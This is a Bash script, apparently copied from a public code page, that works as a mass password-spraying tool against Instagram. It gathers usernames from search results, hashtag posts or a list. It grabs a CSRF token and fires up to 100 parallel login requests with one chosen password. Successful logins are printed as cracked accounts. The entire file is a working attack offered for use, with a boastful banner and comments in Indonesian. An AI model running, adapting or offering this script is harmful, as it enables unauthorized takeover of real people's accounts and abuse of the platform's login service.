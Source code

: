 
#!/bin/bash
#author         : ./Lolz
#thanks to      : JavaGhost - Bashid.org
#recode tinggal recode aja okeh?, tapi cantumin source Y tolol h3h3
#Yamaap kalau scriptnya acak"an:(

#color(bold)
red='\e[1;31m'
green='\e[1;32m'
yellow='\e[1;33m'
blue='\e[1;34m'
magenta='\e[1;35m'
cyan='\e[1;36m'
white='\e[1;37m'

#thread limit => kurangin lebih kecil angkanya boleh, naikin? saran w jangan... awokwowok:v
limit=100

#banner
echo -e $'''
                _  __       _ 
__     | _|_ o |_)|_     o (_|
||||_| |  |_ | |_)|  ___ | __|
\e[1;31mcontact: https://fb.me/n00b.me\e[1;37m
'''

#dependencies
dependencies=( "jq" "curl" )
for i in "${dependencies[@]}"
do
    command -v $i >/dev/null 2>&1 || {
        echo >&2 "$i : not installed - install by typing the command : apt install $i -y"
        exit
    }
done

#menu
echo -e '''
1]. Get target from specific \e[1;31m@username\e[1;37m
2]. Get target from specific \e[1;31m#hashtag\e[1;37m
3]. Crack from your target list
'''

read -p $'What do you want   : \e[1;33m' opt

touch target

case $opt in
    1) #menu 1
        read -p $'\e[37m[\e[34m?\e[37m] Search by query   : \e[1;33m' ask
        collect=$(curl -s "https://www.instagram.com/web/search/topsearch/?context=blended&query=${ask}" | jq -r '.users[].user.username' > target)
        echo $'\e[37m[\e[34m+\e[37m] Just found        : \e[1;33m'$collect''$(< target wc -l ; echo -e "${white}user")
        read -p $'[\e[1;34m?\e[1;37m] Password to use   : \e[1;33m' pass
        echo -e "${white}[${yellow}!${white}] ${red}Start cracking...${white}"
        ;;
    2) #menu 2
        read -p $'\e[37m[\e[34m?\e[37m] Tags for use      : \e[1;33m' hashtag
        get=$(curl -sX GET "https://www.instagram.com/explore/tags/${hashtag}/?__a=1")
        if [[ $get =~ "Page Not Found" ]]; then
        echo -e "$hashtag : ${red}Hashtag not found${white}"
        exit
        else
            echo "$get" | jq -r '.[].hashtag.edge_hashtag_to_media.edges[].node.shortcode' | awk '{print "https://www.instagram.com/p/"$0"/"}' > result
            echo -e "${white}[${blue}!${white}] Removing duplicate user from tag ${red}#$hashtag${white}"$(sort -u result > hashtag)
            echo -e "[${blue}+${white}] Just found        : ${yellow}"$(< hashtag wc -l ; echo -e "${white}user")
            read -p $'[\e[34m?\e[37m] Password to use   : \e[1;33m' pass
            echo -e "${white}[${yellow}!${white}] ${red}Start cracking...${white}"
            for tag in $(cat hashtag); do
                echo $tag | xargs -P 100 curl -s | grep -o "alternateName.*" | cut -d "@" -f2 | cut -d '"' -f1 >> target &
            done
            wait
            rm hashtag result
        fi
        ;;
    3) #menu 3
        read -p $'\e[37m[\e[34m?\e[37m] Input your list   : \e[1;33m' list
        if [[ ! -e $list ]]; then
            echo -e "${red}file not found${white}"
            exit
            else
                cat $list > target
                echo -e "[${blue}+${white}] Total your list   : ${yellow}"$(< target wc -l)
                read -p $'[\e[34m?\e[37m] Password to use   : \e[1;33m' pass
                echo -e "${white}[${yellow}!${white}] ${red}Start cracking...${white}"
        fi
        ;;
    *) #wrong menu
        echo -e "${white}options are not on the menu"
        sleep 1
        clear
        bash brute.sh
esac

#start_brute
token=$(curl -sLi "https://www.instagram.com/accounts/login/ajax/" | grep -o "csrftoken=.*" | cut -d "=" -f2 | cut -d ";" -f1)
function brute(){
    url=$(curl -s -c cookie.txt -X POST "https://www.instagram.com/accounts/login/ajax/" \
                    -H "cookie: csrftoken=${token}" \
                    -H "origin: https://www.instagram.com" \
                    -H "referer: https://www.instagram.com/accounts/login/" \
                    -H "user-agent: Mozilla/5.0 (Linux; Android 6.0.1; SAMSUNG SM-G930T1 Build/MMB29M) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/4.0 Chrome/44.0.2403.133 Mobile Safari/537.36" \
                    -H "x-csrftoken: ${token}" \
                    -H "x-requested-with: XMLHttpRequest" \
                    -d "username=${i}&password=${pass}")
                    login=$(echo $url | grep -o "authenticated.*" | cut -d ":" -f2 | cut -d "," -f1)
                    if [[ $login =~ "true" ]]; then
                            echo -e "[${green}+${white}] ${yellow}You get it! ${blue}[${white}@$i - $pass${blue}] ${white}- with: "$(curl -s "https://www.instagram.com/$i/" | grep "<meta content=" | cut -d '"' -f2 | cut -d "," -f1)
                        elif [[ $login =~ "false" ]]; then
                                    echo -e "[${red}!${white}] @$i - ${red}failed to crack${white}"
                            elif [[ $url =~ "checkpoint_required" ]]; then
                                    echo -e "[${cyan}?${white}] @$i ${white}: ${green}checkpoint${white}"
                    fi
}

#thread
(
    for i in $(cat target); do
        ((thread=thread%limit)); ((thread++==0)) && wait
        brute "$i" &
    done
    wait
)

rm target
